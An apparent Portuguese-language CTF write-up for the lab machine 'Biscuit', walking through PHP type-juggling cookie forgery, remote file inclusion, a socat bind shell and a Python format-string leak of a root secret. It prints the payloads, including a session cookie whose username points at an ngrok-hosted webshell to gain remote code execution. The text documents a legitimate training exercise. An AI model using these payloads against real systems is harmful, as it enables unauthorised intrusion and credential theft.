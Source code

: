 ```yaml
---
layout: article
title:  "UHCCTF (Classificatória) - Biscuit (Official Write-Up) pt-br"
tags: pt-br ctf write-up
---
```


Ola sou o Vinicius (big0us), esse é um write-up de uma maquina que foi o challenge de uma das etapas classificatórias do UHC.

Escreverei meio rápido então peço desculpas se algo estiver um pouco ruim.

Boa leitura :)

g00d_h4ck1ng

# Recon

![/assets/biscuit/Untitled.png](/assets/biscuit/Untitled.png)

A primeira página é uma página de login, dando uma olhada no HTML da página aparentemente não existe nada escondido, vou rodar um fuzzing e depois poderemos testar algumas credenciais.

![/assets/biscuit/Untitled%201.png](/assets/biscuit/Untitled%201.png)

Aparentemente nosso fuzzing entregou apenas um /class, onde existe um directory listing apontando um arquivo ".php".

![/assets/biscuit/Untitled%202.png](/assets/biscuit/Untitled%202.png)

Ok, vamos testar algumas credenciais padrões no formulário de login:

```
admin:admin
guest:guest
administrator:admin
root:root
```

Testando "guest:guest" conseguimos entrar:

![/assets/biscuit/Untitled%203.png](/assets/biscuit/Untitled%203.png)

Dando uma olhada aparentemente temos só uma página de welcome.

Vamos ver nossos cookies.

![/assets/biscuit/Untitled%204.png](/assets/biscuit/Untitled%204.png)

Vamos entender melhor esse cookie chamado session pois ele parece ser interessante:

![/assets/biscuit/Untitled%205.png](/assets/biscuit/Untitled%205.png)

Utilizando o cyberchef para decodar o cookie podemos perceber que se trata de um JSON com três valores: hmac (provavelmente algo que valide os valores), username, e uma hora para o cookie expirar.

Vou tentar alterar o valor de username para "admin" encodar em base64, url e então enviar para a aplicação.

![/assets/biscuit/Untitled%206.png](/assets/biscuit/Untitled%206.png)

Aparentemente retornou um erro dizendo que estamos tentando fazer um "temperamento de cookie", e retornou uma flag! Nossa primeira flag.

Depois de alguns testes enviando cookies com outros valores aleatórios, acabei percebendo que a aplicação valida o Cookie pelo valor do hmac, e não pelo conteudo inteiro do json.

Uma vulnerabilidade muito conhecida sobre validações do PHP é o type jugling, que consiste em bypass de autenticações fazendo qualquer if($ == $) retornar "true".

[PHP Tricks (SPA)](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)

[PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

![/assets/biscuit/Untitled%207.png](/assets/biscuit/Untitled%207.png)

Basicamente quando um programador utiliza "==" em uma comparação o php primeiro torna os dois valores do mesmo tipo, ignorando o tipo (int, str...) das variáveis.

E nessa operação podemos utilizar algumas técnicas para a comparação retornar "true".

# Exploitation

Depois de um tempo tentando, testei trocar o valor do "hmac" para "true" e aparentemente funcionou!

![/assets/biscuit/Untitled%208.png](/assets/biscuit/Untitled%208.png)

```json
{"hmac":true,"username":"admin","expiration":1625435484}
```

![/assets/biscuit/Untitled%209.png](/assets/biscuit/Untitled%209.png)

Ok, fiquei triste que não existe nenhuma flag por aqui 😢.

Vou tentar alterar o nome do usuário para entender o que está acontecendo.

Alterando para "test" o php nos retorna um erro, aparentemente ele está rodando um "require_once" no valor que colocamos + adicionando .php no final. require_once normalmente é usado para incluir páginas e arquivos php em sites, e quando o usuário tem controle sobre o valor que o require_once vai usar a aplicação está vulnerável a LFI ou RFI (Local/Remote File Inclusion).

![/assets/biscuit/Untitled%2010.png](/assets/biscuit/Untitled%2010.png)

Como a aplicação ja coloca o .php no final vou fazer o seguinte.

Subir um arquivo com uma webshell num servidor utilizando o ngrok, mandar a a aplicação incluir meu arquivo e conseguir um RCE.

![/assets/biscuit/Untitled%2011.png](/assets/biscuit/Untitled%2011.png)

E vou mandar a payload:

```json
{"hmac":true,"username":"https://3b4f8afabab2.ngrok.io/shell","expiration":1625435484}
```

(A aplicação ja vai colocar o .php)

Temos RCE!!

![/assets/biscuit/Untitled%2012.png](/assets/biscuit/Untitled%2012.png)

Agora vou tentar pegar uma reverse shell.

Após algumas tentativas percebi que existe um firewall na aplicação que bloqueia qualquer comunicação em portas que não forem 80 ou 443, como eu não tenho uma VPS, vou fazer de uma forma diferente, ao invés de uma reverse shell (onde a vitima se conecta no atante) vou pegar uma bind shell (abrindo uma porta na maquina e me conectando nela).

Para isso vou usar o "socat".

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/#bind-shell)

![/assets/biscuit/Untitled%2013.png](/assets/biscuit/Untitled%2013.png)

Primeiro peguei o binario do socat no github deles (socat binary) e passei pra maquina utilizando o web-server que eu criei para conseguir RCE, e dando um curl.

Então rodei os comandos que estão na imagem e consegui uma bind shell! (utilizei a porta 6969)

![/assets/biscuit/Untitled%2014.png](/assets/biscuit/Untitled%2014.png)

E navegando um pouco no / encontramos a próxima flag:

![/assets/biscuit/Untitled%2015.png](/assets/biscuit/Untitled%2015.png)

# Pós Exploitation

Fazendo o básico checklist de priv esc podemos perceber que estamos com o usuário do apache e podemos rodar um script como root na máquina:

![/assets/biscuit/Untitled%2016.png](/assets/biscuit/Untitled%2016.png)

Aparentemente não podemos ler o script e nem altera-lo.

![/assets/biscuit/Untitled%2017.png](/assets/biscuit/Untitled%2017.png)

O que nos resta é roda-lo:

![/assets/biscuit/Untitled%2018.png](/assets/biscuit/Untitled%2018.png)

Aparentemente ele printa um IP, dando uma olhada no /var/www/html o path da aplicação web podemos perceber que existe um arquivo com o mesmo ip que ele printou, então aparentemente ele está printando o IP que está no arquivo.

![/assets/biscuit/Untitled%2019.png](/assets/biscuit/Untitled%2019.png)

Abri o arquivo com o nano (antes rodar 'export TERM=xterm' !!) e começei a edita-lo para tentar retornar algum erro no python que me mostre alguma coisa do programa.

![/assets/biscuit/Untitled%2020.png](/assets/biscuit/Untitled%2020.png)

![/assets/biscuit/Untitled%2021.png](/assets/biscuit/Untitled%2021.png)

Interessante, aparentemente existe um format string diferente (pouco usado) rodando.

Pesquisando sobre esse tipo de format string + vulnerabilites acabei tropeçando nesse artigo.

[Are there any Security Concerns to using Python F Strings with User Input](https://security.stackexchange.com/questions/238338/are-there-any-security-concerns-to-using-python-f-strings-with-user-input)

Basicamente nele explica-se tudo o que precisamos fazer, por isso não vou explicar direitinho, mas basicamente a forma que esse format string funciona nos permite injetar mais strings para serem formatadas, e se isso é printado podemos printar todas as váriaveis globais que o arquivo usa, normlamente dando alguma key ou senha para nós. (Para quem não entende muito bem inglês é só traduzir que fica tranquilo de entender).

Ok então vamos a payload.

```json
{"ips":["{ip.list_blocked.__globals__}"]}
```

![/assets/biscuit/Untitled%2022.png](/assets/biscuit/Untitled%2022.png)

Aparentemente funcionou e conseguimos o valor de uma váriavel chamada root_secret, provavelmente é a senha do root.

![/assets/biscuit/Untitled%2023.png](/assets/biscuit/Untitled%2023.png)

Worked!!

Obrigado a você que leu até aqui, parabéns cadu pela máquina, e desclupe por algum erro no write-up, fiz correndo >_>